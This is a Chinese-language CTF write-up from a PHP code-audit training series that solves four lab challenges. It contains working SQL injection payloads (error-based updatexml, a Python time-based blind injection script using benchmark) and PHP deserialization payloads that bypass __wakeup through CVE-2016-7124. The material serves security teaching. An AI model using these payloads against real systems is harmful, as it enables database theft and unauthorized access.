## 前言

大家好，我们是红日安全-代码审计小组。最近我们小组正在做一个PHP代码审计的项目，供大家学习交流，我们给这个项目起了一个名字叫 [ **PHP-Audit-Labs** ](https://github.com/hongriSec/PHP-Audit-Labs) 。在每篇文章的最后，我们都留了一道CTF题目，供大家练习。下面是 **Day9-Day12** 的题解：

## Day9题解：(By 七月火)

题目如下：




实际上这题是以齐博CMS的漏洞为原型改造的，让我们具体来看一下漏洞是如何产生的。题目提供了一个留言版功能，并且对用户提交的留言进行 **HTML实体编码转换** 、 **特殊字符转义** 、 **违禁词过滤** 等处理，然后直接与sql语句进行拼接操作(下图第5行)，具体代码如下：



这些转换函数都可以在 **function.php** 文件中找到，我们很明显可以看到在第16-19行处进行了全局变量注册，这样就很容易引发变量覆盖问题。在第14行处定义了需要替换的违禁词数组，并在 **replace_bad_word** 函数中进行替换。这里，我们便可以通过覆盖 **$limit_words** 数组，来逃逸单引号，因为在 **index.php** 文件中使用了 **addslashes** 函数。


我们使用第一个 **payload** 如下：

```bash
msg=1%00' and updatexml(1,concat(0x7e,(select * from flag),0x7e),1))#&limit_words[\0\]=
```



这样我们便注出了flag，但是这里的flag并不齐全，因为 **updatexml报错** 最多只能显示 **32位** ，所以下面我使用 **reverse** 函数注出尾部数据。当然方法不止这一种，大家自己举一反三。

```bash
msg=1%00' and updatexml(1,concat(0x7e,(select reverse(flag) from flag),0x7e),1))#&limit_words[\0\]=
```



## Day10题解：(By 七月火)

题目如下：



本次题目源于某CMS **0day** 漏洞改编。很明显可以看到在上图代码 **第29行** 处进行了 **SQL** 语句拼接，然后直接带入数据库查询。而在前一行，其实是有对 **GET** 方式传来的参数 **id** 进行过滤的，我们来详细看看过滤函数 **stophack** 。

我们可以清楚的看到 **stophack** 函数存在 **过滤不严** 和 **检测到非法字符未直接退出** 两个问题。



程序如果检测到非法字符或单词，都会将其替换成字符串 **HongRi** ，然而并没有立即退出，这样攻击者输入的攻击语句还是会继续被带入数据库查询。只不过这里关键词都被替换成了字符串 **HongRi** ，所以我们需要绕过这里的黑名单。纵观整个程序，当 **SQL** 语句执行出错时，并不会将错误信息显示出来，所以此处应为盲注。开发者估计也是考虑到这个问题，便将关键词 **sleep** 给过滤了，然而这并不能影响攻击者继续使用盲注来获取数据。关于禁用了 **sleep** 函数的盲注，大家可以直接参考这篇文章：[mysql 延时注入新思路](https://xz.aliyun.com/t/2288) 。这里我直接利用 **benchmark** 函数来获取flag。python程序如下：

```python
import sys, string, requests

version_chars = ".-{}_" + string.ascii_letters + string.digits + '#'
flag = ""
for i in range(1,40):
    for char in version_chars:
        payload = "-1 or if(ascii(mid((select flag from flag),%s,1))=%s,benchmark(200000000,7^3^8),0)" % (i,ord(char))
        url = "http://localhost/index.php?id=%s" % payload
        if char == '#':
            if(flag):
                sys.stdout.write("\n[+] The flag is： %s" % flag)
                sys.stdout.flush()
            else:
                print("[-] Something run error!")
            exit()
        try:
            r = requests.post(url=url, timeout=2.0)
        except Exception as e:
            flag += char
            sys.stdout.write("\r[-] Try to get flag： %s" % flag)
            sys.stdout.flush()
            break
print("[-] Something run error!")
```



## Day11题解：(By licong)

这道题主要考察对php反序列化函数的利用，以及常见的绕过方法。



访问**flag.php**,显示禁止访问，题目默认显示源码，在下图**代码57行**，数据库查询内容不为空的情况下，定义常量**IN_FLAG**，猜测需要满足该条件才能访问**flag.php**。然后调用**loadData**函数。



**loadData**函数，对传入参数进行判断，如果验证通过，则作为参数传入到反序列化函数，验证不通过返回为空，该判断绕过可参考Day11,传入内容来源于数据库查询结果，此时可考虑如何构造数据库查询结果。



在**index.php**页面显示源码中，我们发现**SoFun**类,如下图，在**__destruct()**函数中，会对类变量**$this->file**所对应的文件进行包含，类变量反序列化可控，在**loadData**函数调用前，对**IN_FLAG**常量进行了设置，如果**loadData**函数传入参数值为**SoFun**类反序列化字符串，且控制类变量**$this->file=flag.php**，则可以包含flag.php文件，此时**'IN_FLAG'**已经设置，可获取到flag，需考虑绕过**__wakeup**函数。



考虑如何控制**loadData**函数传入参数的值，从下图可知，**$obj->role**来源于数据库查询结果，而构建sql语句的username字段来源于**$username**,**$username**变量来源于**func_get_args()函数**,该函数返回包含调用函数参数列表的数组,如果**login()**函数传入参数可控，可通过**union联合查询**，构造查询结果，使构造数据为SoFun类序列化字符串。我们去看一下login函数的调用。


在**HINCON**类**__destruct**方法中，通过**call_user_func_array()**函数调用login或source方法，如果**$this->method='login'**则可以调用**login()**函数，**$this->method**为类变量，反序列化可控。**$this->args**为调用函数传入参数，意味着login函数中$username变量可控，此时可通过SQL注入，构造查询数据。



在进行反序列化时，会调用**__wakeup**对类变量args进行处理，此时调用**mysql_escape_string**函数对**$this->args**进行转义。可通过**CVE-2016-7124**，序列化字符串中，如果表示对象属性个数的值大于真实的属性个数时就会跳过**__wakeup**的执行。绕过检测，进行sql注入。



总结一下思路：

1.构造**HITCON**类反序列化字符串，其中**$method='login'**,**$args**数组'username'部分可用于构造SQL语句，进行SQL注入，'password'部分任意设置。

2.调用**login()**函数后，利用**$username**构造联合查询，使查询结果为**SoFun类**反序列化字符串，设置**$file='flag.php'**，需绕过**__wakeup()**函数。

3.绕过**LoadData()**函数对反序列化字符串的验证,参考Day11。

4.SoFun类 **__destruct()**函数调用后,包含flag.php文件，获取flag，需绕过**__wakeup()函数**。

第二个答案是另一种思路，大家可研究一下。

注：因为传参方式为GET，注意进行URL编码。

参考答案：

```php
O:6:"HITCON":3:{s:6:"method";s:5:"login";s:4:"args";a:2:{s:8:"username";s:81:"1' union select 1,2,'a:1:{s:2:"xx";O:%2b5:"SoFun":2:{s:4:"file";s:8:"flag.php";}}'%23";s:8:"password";s:3:"234";}}
O:5:"SoFun":1:{s:4:"file";s:8:"flag.php";}
a:1:{s:2:"xx";O:5:"SoFun":2:{s:4:"file";s:8:"flag.php";}}
```

```php
O:5:"SoFun":3:{s:4:"file";s:8:"flag.php";s:2:"ff";O:6:"HITCON":5:{s:6:"method";s:5:"login";s:4:"args";a:2:{i:0;s:12:"1' or '1'--+";i:1;s:3:"111";}s:4:"conn";N;}}
```


## Day-12题解：(By l1nk3r)

题目如下：



从代码 **第27行** 很明显，这道题考查sql注入，但是这里有两个考察点，我们分别来看一下。

### 第一部分

 **第23行** 和 **第24行** 针对 **GET** 方式获取到的 **username** 和 **password** 进行了处理，处理函数为 **clean** 。该函数在 **第16-20行** 处定义，函数的主要功能就是使用 **htmlentities** 函数处理变量中带有的特殊字符，而这里加入了 **htmlentities** 函数的可选参数 **ENT_QUOTES** ，因此这里会对 **单引号** ， **双引号** 等特殊字符进行转义处理。由于这里的注入是字符型的，需要闭合单引号或者逃逸单引号，因此这里需要绕过这个函数。我们可以通过下面这个例子观察 **clean** 函数的处理效果：



题目 **第36行** 是进入数据库查询，并且返回 **name** 列字段的值。而这里的sql语句是这样的：

```php
$query='SELECT * FROM ctf.users WHERE name=\''.$username.'\' 
AND pass=\''.$password.'\';';
```

那我们如果输入的 **username** 是 **admin** ， **password** 是 **admin** ，自然就构成了正常要执行的sql语句。



这道题的问题就在于可以引入反斜杠，也就是转义符，官方针对 [转义符](http://php.net/manual/zh/regexp.reference.escape.php) 是这么解释的。

> 比如，如果你希望匹配一个 "*" 字符，就需要在模式中写为 `\*`。 这适用于一个字符在不进行转义会有特殊含义的情况下。

这里我们看个简单的例子理解一下这个转义符号。



转义符号会让当前的特殊符号失去它的作用，这道题由于可以引入反斜杠，也就是转义符号，来让

```php
$query='SELECT * FROM ctf.users WHERE name=\''.$username.'\' 
AND pass=\''.$password.'\';';
```

**username**后面的 **'** 失效，只要这个 **'** 失效，就能闭合**pass=**后面的 **'**。最后组合的payload就如下图所示



所以实际上目前 **name** 的值是 **admin\\' AND pass=** ,这时候 **password** 的值是一个可控的输入点，我们可以通过这个值来构造 **sql** 的 **联合查询** ，并且注释掉最后的 **单引号** 。



最后我们看看在mysql中执行的结果。


### 第二部分

好了第一部分我们其实已经成功构造好了payload，但是回头来看看题目，题目 **第6行** 到 **第16行** 有两个正则表达式，作用就是如果参数中带有 **or、and 、union** 等数据，就退出，并输出 **Attack detected!!!** 



这里当然我们可以正面硬刚这个正则表达式。但是这里我们来聊一个比较有趣的解法。

我们看到是通过 **request** 方式传入数据，而php中 [REQUEST](http://php.net/manual/zh/reserved.variables.request.php) 变量默认情况下包含了 **GET** ，**POST** 和 **COOKIE** 的数组。在 **php.ini** 配置文件中，有一个参数 **variables_order** ，这参数有以下可选项目

```
; variables_order
;   Default Value: "EGPCS"
;   Development Value: "GPCS"
;   Production Value: "GPCS"
```

这些字母分别对应的是 **E: Environment** ，**G:Get**，**P:Post**，**C:Cookie**，**S:Server**。这些字母的出现顺序，表明了数据的加载顺序。而 **php.ini** 中这个参数默认的配置是 **GPCS** ，也就是说如果以 **POST** 、 **GET** 方式传入相同的变量，那么用 **REQUEST** 获取该变量的值将为 **POST** 该变量的值。



我们举个简单的例子方便大家理解：



我们可以看到这里的 **post** 方式传入的数据覆盖了 **get** 方式传入的数据，因此这里最后的payload如下：

